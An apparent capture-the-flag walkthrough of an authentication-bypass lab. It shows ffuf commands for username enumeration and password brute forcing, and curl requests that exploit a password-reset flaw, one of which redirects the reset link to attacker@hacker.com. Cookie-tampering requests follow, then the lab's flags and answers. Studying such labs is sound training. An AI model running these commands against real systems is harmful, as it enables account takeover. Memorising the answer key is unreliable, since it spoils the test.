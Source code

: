 # Walkthrough

## Username Enumeration

We can use the existence of an error message to produce a list of valid usernames already signed up on the system by using the `ffuf` tool. The `ffuf` tool uses a list of commonly used usernames to check against for any matches.

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/signup -mr "username already exists"
```

In the above example:
-w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists.
-X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example.
-d argument specifies the data that we are going to send. In our example, we have the fields username, email, password, and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request.
-H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to let the webserver know we are sending form data.
-u argument specifies the URL we are making the request to.
-mr argument is the text on the page we are looking for to validate we've found a valid username.
You can add >> listofusers.txt at the end to have the output in a text file. After running the command, these are the users found:

![Username](image.png)

Username starting with si***: **simon**
Username starting with st***: **steve**
Username starting with ro****: **robert**

### Brute Force
In this task, we need to use our listofusers.txt file. However, the file needs to be edited prior to running another script.
![USERSLIST](image-1.png)

Make sure that the file is in the same location from where you are running the script.

Previously, we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we’re using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we’ve chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma. For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

```bash
ffuf -w listofusers.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/login -fc 200
```

However, this is causing some trouble. No matter how you adjust the list, it may fail. You can let me know in the comments!
Meanwhile, we have only 4 users to enumerate, so this can be easily done by switching the command a little bit.

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=steve&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/login -fc 200
```

![Username/Password](image-2.png)

We change one thing here: username=steve, and it provides us with a matching password. This was the only user that matched our list of passwords.
Valid username and password (format: username/password): **steve/thunder**

### Logic Flaw
At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.
In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.
Let’s illustrate this by using the curl tool to manually make the request to the webserver.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
For the next step, you’ll need to create an account on the Acme IT support customer section. Doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm.

Now rerun the curl request but with your @acmeitsupport.thm in the email field. You’ll have a ticket created on your account which contains a link to log you in as Robert. Using Robert’s account, you can view their support tickets and reveal a flag.

```bash
curl 'http://10.10.200.105/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=user@customer.acmeitsupport.thm'
```
![alt text](image-3.png)
![alt text](image-4.png)

Flag from Robert’s support ticket: **THM{AUTH_BYPASS_COMPLETE}**
Cookie Tampering
First, we’ll start just by requesting the target page:
```bash
curl http://10.10.164.247/cookie-test
```
We got the message: Not Logged In.

Now we’ll send another request with the logged_in cookie set to true and the admin cookie set to false:

```bash
curl -H "Cookie: logged_in=true; admin=false" http://10.10.164.247/cookie-test
```
Finally, we’ll send one last request setting both the logged_in and admin cookies to true:

```bash

curl -H "Cookie: logged_in=true; admin=true" http://10.10.164.247/cookie-test
```
![alt text](image-5.png)

Once done, you will receive your first flag!

Flag from changing the plain text cookie values: **THM{COOKIE_TAMPERING}**

Value of the MD5 hash 3b2a1053e3270077456a79192070aa78: **463729**

Base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30=: **THM{BASE64_ENCODING}**
![alt text](image-6.png)

Encode the following value using base64 {“id”:1,”admin”:true} Answer: **eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==**
![alt text](image-7.png)



